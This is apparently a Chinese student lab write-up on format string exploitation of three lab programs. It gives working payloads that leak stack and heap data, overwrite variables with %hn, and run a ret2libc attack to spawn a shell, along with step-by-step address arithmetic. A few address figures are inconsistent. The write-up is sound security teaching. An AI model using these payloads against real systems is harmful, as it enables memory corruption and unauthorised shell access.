# 任务1：针对prog1的漏洞利用

> 1. 改变程序的内存数据：将变量 var 的值，从 0x11223344 变成 0x66887799
>
> 2.  改变程序的内存数据：将变量 var 的值，从 0x11223344 变成 0xdeadbeef；
>
>    a) 后半部分数据小于前半部分数据
>
>    b) 为避免 print 大量字符，可以将数据分成 4 个部分分别 写入（使用 %hn ）

首先使用如下命令关闭ASLR：

`sudo sysctl -w kernel.randomize_va_space=0`



使用如下命令编译prog1：

`gcc -z execstack -o prog1 prog1.c`



## （1）改变程序的内存数据：将变量 var 的值，从 0x11223344 变成 0x66887799

先打印栈里的数据

使用以十六进制格式的格式化字符串即可，构造输入字符串为`%08x %08x %08x %08x %08x %08x`， 此时会从堆栈中读取4个参数，并以8位填充的十六进制数显示。



可以看到var的值也被打印出来

可以看到目标地址是`bfffed54`

注意到我们用来实现修改数据的%n是将当前所有输出字符的个数写进va_list 所指向的地址，所以需要控制%n前需要输出0x66887799个字符

0x66887799 = 1720219545

而printf前已经提前输入了41(4+8+8+8+8+5个'.')个字符 所以需要减去41

减去41为1720219504 

最初的指令为

```bash
echo $(printf "\x54\xec\xff\xbf").%.8x.%.8x.%.8x.%.8x.%.1720219504x.%n >
input
```

但是考虑到目标值太大无法被正常输出，因此使用“%hn”格式化字符串， 将数据分成 4 个部分分别 写入，为两部分0x6688和0x7799进行内存写入。

目标地址是0xbfffed54，注意小端存储，这里是低端的两字节地址，需要修改为0x7799，高端的两字节地址是0xbfffec96，需要被修改成0x6688

0x6688 = 26248

0x7799 = 30617

注意我们构造字符串，前面已经自带44(4+4+4+8+8+8+8)个字符

26248-44 = 26204

30617-26248 = 4369

被构造的字符串如下

```bash
echo $(printf "\x56\xed\xff\xbf@@@@\x54\xed\xff\xbf")%.8x%.8x%.8x%.8x%.26204x%hn%.4369x%hn > input

./prog1 < input | grep -a address
```

可以看到成功修改



## （2）改变程序的内存数据：将变量 var 的值，从 0x11223344 变成 0xdeadbeef

注意 因为0xBEEF小于0xDEAD，因此在BEEF前加1变为1BEEF-DEAD，但在存入高地址的时候因为位 数不够1会被省略

DEAD = 57005

1BEEF = 114415

57005-44=56961

114415-57005=57410

仿照（1），我们构造命令

```bash
echo $(printf "\x56\xED\xFF\xBF@@@@\x54\xED\xFF\xBF")%.8x%.8x%.8x%.8x%.56961x%hn%.57410x%hn > input

./prog1 < input | grep -a address
```

成功修改



# 任务2：针对prog2的漏洞利用

> 1. 开启 Stack Guard 保护，并开启栈不可执行保护，通过 ret2lib 进行利用 ，获得 shell （可以通过调用 system(“/bin/sh”)）
> 2.  尝试设置 setuid root，观察是否可以获得 root shell
> 3.  提示：需要查找 ret2lic 中的 system 函数和“/bin/sh”地址

## （1）开启 Stack Guard 保护，并开启栈不可执行保护，通过 ret2lib 进行利用 ，获得 shell 

开启Stack Guard，开启栈不可执行保护，则编译命令是

`gcc -fstack-protector -z noexecstack -o prog2 prog2.c`

首先创建一个空的badfile再执行该程序，以获取输入字符串存储地址、fmtstr()函数的EBP地址如下：



**EBP的地址是0xBFFFECE8**

使用ldd命令查看引用的libc，并查看该libc中system()函数和字符串“/bin/sh”的偏移

```bash
ldd prog2 

readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system 

strings -tx /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
```

如下图



**注意到system()函数偏移为0x0003ada0，字符串“/bin/sh”偏移为0x0015b82b**

然后使用gdb查看libc加载后的实际基址

```bash
gdb prog2
设断点
b main
运行
run
然后查看实际基址
info proc mappings
```



**我们有libc的加载基址 0xb7d6a000**

可以计算system函数地址为

`0xb7d6a000+0x0003ada0=0xb7da4da0`

"/bin/sh"的地址为

`0xb7d6a000+0x0015b82b=0xb7ec582b`

构造shellcode

ret填充为system:0xb7da4da0

参数字符串为"/bin/sh"地址:0xb7ec582b

则根据之前得到的

`ebp=0xbfffece8`

`ret=ebp+4=0xbfffecec`

参数位置为`ebp+12=0xbfffecf4`

根据上述所有的计算 构造如下命令

```bash
echo $(printf "\xec\xec\xff\xbf@@@@\xf4\xec\xff\xbf@@@@\xee\xec\xff\xbf@@@@\xf6\xec\xff\xbf")%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%19724x%hn%2699x%hn%24495x%hn%18x%hn > badfile
```

执行这个命令 再运行prog2成功提取shell

`./prog2`



## （2）尝试设置 setuid root，观察是否可以获得 root shell

给予prog2 root权限

`chmod u+s prog2`



测试发现仍不能获得root权限



# 任务3： 针对prog3的漏洞利用

> 1.  打印栈上数据
> 2. 获得 heap 上的 secret 变量的值
> 3. 修改 target 变量成 0xc0ffee00
> 4.  上述步骤在首先在关闭 ASLR 的情况下进行，进一步， 可尝试开启 ASLR，观察程序内存地址的变化

为简化实验中冗余的buffer占用，将BUF_SIZE的大小更改为3，如下图：



随后编译目标文件，命令如下：

`gcc -o server server.c`

`gcc -z execstack -o format format.c`



开启两个终端，一个以root权限运行server程序，该程序会调用format，创建一个子进程；另一个 向本地9090端口输入格式化字符串，以完成漏洞利用。具体使用的命令如下：

```bash
#终端1
sudo ./server
#终端2
cat msg | nc 127.0.0.1 9090 
```

## （1）打印栈上数据

在终端2执行

```bash
echo ABCD%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x > msg

cat msg | nc 127.0.0.1 9090 
```

观察到成功泄露出内存数据：



图中44434241对应ABCD 是输入字符串的起始地址

其中secret地址为0x08048740，后续用

target地址0x0804a02c，后续用

## （2）获得 heap 上的 secret 变量的值

变量secret是一个字符串，因此使用格式化字符串“%s”并指定变量地址进行输出。在打印内存数据中已知在va_list指针移动至输入字符串起始地址前，需要使用39个格式化字符串。

**根据（1）中图的信息，可以得到secret地址为 0x08048740。**

因此将格式化字符串“%s”对应的指针地址即输入字符串起始地址填充为secret地址即可。 故构造格式化字符串如下：

```bash
echo $(printf "\x40\x87\x04\x08")%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%s > msg

cat msg | nc 127.0.0.1 9090 
```

执行命令，观察到成功输出secret字符串，如下图：



## （3）修改 target 变量成 0xc0ffee00

target变量的地址为0x0804a02c

计算：

0xc0ff=49407

0xee00=60928

前面的字符串长度为（4+4+4+38*（8+1））=354

49407-354=49053

60928-49407=11521

构造格式化字符串如下：

```bash
echo $(printf "\x2e\xa0\x04\x08@@@@\x2c\xa0\x04\x08")%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.49053x%hn%.11521x%hn > msg

cat msg | nc 127.0.0.1 9090 
```

运行命令 成功修改target



## （4） 尝试开启 ASLR

`sudo sysctl -w kernel.randomize_va_space=1`

然后走一遍（1）、（2）和（3）的流程

可以看到三个小实验的结果都没有发生变化 secret和target地址也没有变






